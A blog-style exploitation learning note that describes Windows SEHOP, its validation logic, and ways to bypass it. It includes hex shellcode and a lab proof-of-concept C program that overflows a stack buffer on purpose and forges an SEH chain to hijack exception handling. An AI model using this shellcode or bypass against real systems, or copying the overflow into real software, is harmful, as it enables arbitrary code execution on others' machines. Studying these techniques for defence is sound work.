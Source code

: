 ```yaml
---
title: Exploit learning notes 020 SEHOP introduction
description: Introduction to SEHOP and a little simple attack
date: 2020-11-28 15:38:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-020-sehop-introduction/)

## Introduction

The core task of SEHOP is to check the integrity of the S.E.H chain. Before the program turns to exception handling SEHOP checks whether the last exception handling function on the S.E.H chain is the ultimate exception handling function fixed by the system. If yes, it means this S.E.H chain is not broken and the program can go to execute the current exception handling function; if it detects that the last exception handling function is not, it means the S.E.H chain is broken and an S.E.H override attack may have occurred and the program will not go to execute the current exception handling function

> SEHOP validation pseudocode

```cpp
if (process_flags & 0x40 == 0)  // 如果没有SEH记录则不进行检测
{
    if (record != 0xFFFFFFFF)  // 开始检测
    {
        do
        {
            if (record < stack_bottom || record > stack_top) // SEH 记录必须位于栈中
                goto corruption;
            if ((char *)record + sizeof(EXCEPTION_REGISTRATION) > stack_top) // SEH 记录结构需完全在栈中
                goto corruption;
            if ((record & 3) != 0) // SEH记录必须4字节对齐
                goto corruption;
            handler = record->handler;
            if (handler >= stack_bottom && handler < stack_top) // 异常处理函数地址不能位于栈中
                goto corruption;
            record = record->next;
        } while (record != 0xFFFFFFFF); // 遍历S.E.H链
    }
    if ((TEB->word_at_offset_0xFCA & 0x200) != 0)
    {
        if (handler != &FinalExceptionHandler) // 核心检测，地球人都知道，不解释了
        goto corruption;
    }
}
```

## Attack ideas

### Attack the return address

> If the function has SEHOP enabled but not GS enabled or if the function does not have GS enabled, then directly attack the return address

### Attack the virtual function

> SEHOP only protects SEH, but it does not protect the dummy function table, so the attack on the dummy function can still be successful

### Exploit modules that do not have SEHOP enabled

> Microsoft has disabled SEHOP for some encryption shells, e.g. Armadilo

- For example, we can set these two options to `0x53` and `0x52` respectively to simulate a program that has been shelled by `Armadilo`, so as to Disable SEHOP
- In Windows 7 and later, the second module pointed to by `PEB_LDR_DATA` is occupied by `KernelBase.dll`, so the shellcode should be changed

```c
Shellcode_for_windows7=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
```

### Fake SEH chain table

> Prerequisite: ASLR is not enabled

- Idea
  - Bypass `SafeSEH` by using `SEH_NOSafeSEH_JUMP.dll` which is not `SafeSEH` enabled
  - Bypass `SEHOP` by forging the S.E.H chain to create the illusion that the S.E.H chain is not broken
  - The test function in `SEH_NOSafeSEH` has a typical overflow, i.e., it causes a str overflow by copying an extra-long string to str, which in turn overwrites the program's S.E.H information
  - Use the `pop pop retn` instruction address in `SEH_NOSafeSEH_JUMP.DLL` to overwrite the address of the exception handling function, and then transfer the program to exception handling by creating a divide-by-0 exception
  - By hijacking the exception handling process, the program is transferred to `SEH_NOSaeSEH_JUMP.DLL` to execute the `pop pop retn` instruction, and after executing `retn` the program is transferred to `shellcode` for execution.

- Code

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x14\xFF\x12\x00" // address of last seh record
"\x12\x10\x12\x11" // address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90"
"\xFF\xFF\xFF\xFF" // the fake seh record
"\x75\xA8\xF7\x77"
;

DWORD MyException(void)
{
    printf("There is an exception");
    getchar();
    return 1;
}

void test(char * input)
{
    char str[200];
    memcpy(str, input, 412);
    int zero = 0;
    __try
    {
        zero = 1 / zero;
    }
    __except(MyException()){}
}

int main()
{
    HINSTANCE hInst = LoadLibrary(_T("SEH_NOSaeSEH_JUMP.dll")); // load No_SafeSEH module
    char str[200];
    test(shellcode);
    return 0;
}
```
